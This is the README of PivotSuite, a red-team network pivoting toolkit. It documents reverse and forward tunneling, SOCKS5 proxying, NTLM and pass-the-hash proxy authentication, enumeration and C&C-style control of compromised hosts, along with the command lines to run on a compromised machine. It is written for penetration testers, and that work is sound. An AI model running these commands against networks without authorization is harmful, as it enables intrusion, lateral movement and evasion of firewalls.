 # PivotSuite
#### PivotSuite: Hack The Hidden Network -  A Network Pivoting Toolkit

#### Description 
PivotSuite is a portable, platform independent and powerful network pivoting toolkit, 
Which helps Red Teamers / Penetration Testers to use a compromised system to move around inside a network. 
It is a Standalone Utility, Which can use as a Server or as a Client.

##### PivotSuite as a Server : 
If the Compromised host is directly accessable (Forward Connection) from Our pentest machine,
Then we can run pivotsuite as a server on compromised machine and access the different subnet hosts from our pentest machine, 
Which was only accessable from compromised machine. 

##### PivotSuite as a Client : 
If the Compromised host is behind a Firewall / NAT and isn't directly accessable from our 
pentest machine, Then we can run pivotsuite as a server on pentest machine and pivotsuite as a client on compromised machine
for creating a reverse tunnel (Reverse Connection). Using this we can reach different subnet hosts from our pentest machine,
which was only accessable from compromised machine. 


#### Key Features: 
1. Supported Forward & Reverse TCP Tunneling
2. Supported Forward & Reverse socks5 Proxy Server
3. UDP over TCP and TCP over TCP Protocol Supported
4. Corporate Proxy Authentication (NTLM) Supported
5. Inbuilt Network Enumeration Functionality, Eg. Host Discovery, Port Scanning, OS Command Execution 
6. PivotSuite allows to get access to different Compromised host and their network, simultaneously (Act as C&C Server) 
7. Single Pivoting, Double Pivoting and Multi-level pivoting can  perform with help of PivotSuite. 
8. PivotSuite also works as SSH Dynamic Port Forwarding but in the Reverse Direction.   


#### Advantage Over Other tools:

1. Doesn't required admin/root access on Compromised host
2. PivotSuite also works when Compromised host is behind a Firewall / NAT, When Only Reverse Connection is allowed. 
3. No dependency other than python standard libraries.
4. No Installation Required 
5. UDP Port is accessable over TCP

#### Installation
You can download the latest version of pivotsuite by cloning the Git repository or PyPI Package.

    git clone https://github.com/RedTeamOperations/PivotSuite.git
            
                                  OR
    pip install pivotsuite
     
PivotSuite works out of the box with Python version 2.7.x and 3.6.x on any platform.
    
----------------------------------------------------------------------------------------------------------------------------

 #### Requirements:
 
    a. Only Python Standard Libraries are Required
    b. Compatible for both Python 2.7.x & Python 3.6.x

 #### Usages :
  
  $ pivotsuite.py [options] SERVER-IP SERVER-PORT


Options:

     --version             show program's version number and exit
  
    -h, --help            show this help message and exit
  
    -S, --server          Run PivotSuite as a Server
  
    -C, --client          Run PivotSuite as a Client
  
     - -server-ip=SERVER_IP
  
                        Server Listen/Connect IP address, Default  0.0.0.0
                        
     --server-port=SERVER_PORT
  
                        Server Listen/Connect Port, Default 7777
                        

  PivotSuite Server Options:
  
    -F, --forward-connection
    
                        Forward Network Traffic
                        
    --server-option=SP/PF
    
                        Use Server as Socks_Proxy(SP)/Port_Forward(PF),
                        Default SP
                        
    --network-protocol=T/U
    
                        Select Protocol For Port Forwarding TCP(T)/ UDP(U),
                        Default T
                        
    --forward-ip=Remote-Host-IP
    
                        Remote Host IP for Port Forwarding
                        
    --forward-port=Remote-Host-Port
    
                        Remote Host Port for Port Forwarding
                        
    -W, --reverse-connection
    
                        Reverse Network Traffic


  PivotSuite Client Options:
  
    -O SP/PF/NE, --option=SP/PF/NE
                        Use Client as Socks_Proxy(SP)/ Port_Forwarding(PF)/
                        Network_Enumeration(NE), Default SP
                        
    -L, --local-forward
    
                        Use Local Port Forwarding
                        
    -R, --remote-forward
    
                        Use Remote Port Forwarding
                        
    -P T/U, --protocol=T/U
    
                        Select Protocol For Port Forwarding TCP(T)/ UDP(U),
                        Default T
                        
    --local-ip=LOCAL_IP
    
                        Local IP For Port Forwarding
                        
    --local-port=LOCAL_PORT
    
                        Local Port For Port Forwarding
                        
    --remote-ip=REMOTE_IP
    
                        Remote IP For Port Forwarding
                        
    --remote-port=REMOTE_PORT
    
                        Remote Port For Port Forwarding
                        

  NTLM Proxy Authentication Options:
  
    --ntlm-proxy-ip=NTLM_PROXY_IP
    
                        IP address of NTLM proxy
                        
    --ntlm-proxy-port=NTLM_PROXY_PORT
    
                        Port of NTLM proxy
                        
    --username=USERNAME
    
                        Username to authenticate with NTLM proxy
                        
    --domain=DOMAIN     Domain to authenticate with NTLM proxy
    
    --password=PASSWORD
    
                        Password to authenticate with NTLM proxy
                        
    --hashes=HASHES     Hashes to authenticate with instead of password.
                        Format - LMHASH:NTHASH
  
  
  #### Documentation 
  
##### Case 1 : (Forward TCP Tunneling)

IF the Compromised host is directly accessible from our pentest machine.


    Then run PivotSuite as a server on the compromised machine as per our requirements:

        a. Dynamic Port Forwarding (Socks5 Proxy Server) On Compromised machine:

             $  python pivotsuite.py -S -F --server-option SP --server-ip IP --server-port PORT


        b. Single Port Forwarding (TCP/UDP Relay) On Compromised machine :

            $ python pivotsuite.py -S -F --server-option PF --network-protocol T/U --remote-ip IP --remote-port PORT 
              --server-ip IP (local-ip) --server-port PORT (local-port)


##### Case 2 : (Reverse TCP Tunneling)

IF the Compromised host is behind a Firewall / NAT and directly not accessible from our pentest machine.


    Then run PivotSuite as a Server on pentest machine and PivotSuite as a Client on compromised machine.


      i. Run PivotSuite as a Sever On Pentest Machine :

          $ python pivotsute.py -S -W 


      ii. Run PivotSuite as a Client on Compromise Machine as per our requirements:

          a. Dynamic Port Forwarding (Socks5 Proxy Server) On Pentest Machine:

              $ python pivotsuite.py -C -O SP --server-ip IP --server-port PORT

          b. Local / Remote Port Forwarding On Pentest Machine:

               $ python pivotsuite.py -C -O PF  - L / -R (local or remote port forwarding) -P T/U  --local-ip IP 
                  --local-port PORT --remote-ip IP --remote-port PORT  --server-ip IP --server-port PORT

          c. Network Enumeration of Compromised Machine:

                $ python pivotsuite.py -C -O NE --server-ip IP --server-port PORT


IF Corportate Proxy Authentication (NTLM) required for reverse connection on Compromised Host :

      $ python pivotsuite.py -C -O SP --ntlm-proxy-ip IP --ntlm-proxy-port PORT --username USERNAME --password PASSWORD 
        --server-ip IP --server-port PORT